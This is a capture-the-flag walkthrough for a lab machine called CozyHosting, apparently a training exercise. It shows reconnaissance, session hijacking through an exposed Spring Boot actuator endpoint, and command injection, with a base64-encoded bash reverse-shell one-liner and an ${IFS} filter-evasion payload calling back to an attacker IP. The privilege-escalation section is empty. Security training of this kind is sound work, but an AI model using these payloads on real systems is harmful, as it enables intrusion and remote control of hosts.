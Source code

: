 # CozyHosting

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP ngionx v1.18 nginx 1.18.0 (Ubuntu)

bootstrap v 5.2.3

Directory scanning reveals the /login page, /error page, and /actuator endpoint (using SecLists 
quickhits.txt) and subdirectories ([scan](./cozyhosting.ffuf)):

- error
- actuator
- actuator/sessions
- actuator/health
- actuator/env
- actuator/beans
- actuator/mappings

The error page is a Whitelabel Error Page, a fallback for applications with no mapping for /error, and is used
by Spring Boot applications

![error](./pictures/error-page.png)

Using Wappalyzer on the discovered pages shows the Web server software and version, the application language,
and the OS

Index  
![index](./pictures/wappalyzer.png)

/error  
![error](./pictures/wappalyzer-error.png)

/login  
![login](./pictures/wappalyzer-login.png)

The actuator endpoint is openly accessible and the /sessions page contains a JSESSIONID token for an 
authenticated user, using this session token and navigating to /login redirects us to the admin dashboard 
at /admin

On the dashboard there is a tool to include a host into automatic patching which sends a post request to 
/executessh using an IP and a username

![executessh](./pictures/admin-dashboard.png)

The username parameter is vulnerable to code injection, we can test this with ping or wget, replacing any 
spaces with `${IFS}`  

![wget](./pictures/command-injection-http-server.png)  

![request](./pictures/command-injection-request.png)  

### Exploitation

We can use the command injection to execute a bash one-liner that has been base64 encoded

Bash one-liner base64 encoded:

`echo "bash -i >& /dev/tcp/10.10.16.8/1337 0>&1" | base64 -w 0`

Command injection payload:

`;echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo=" | base64 -d | bash;#`

Replace spaces:

`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;#`

### Privilege Escalation

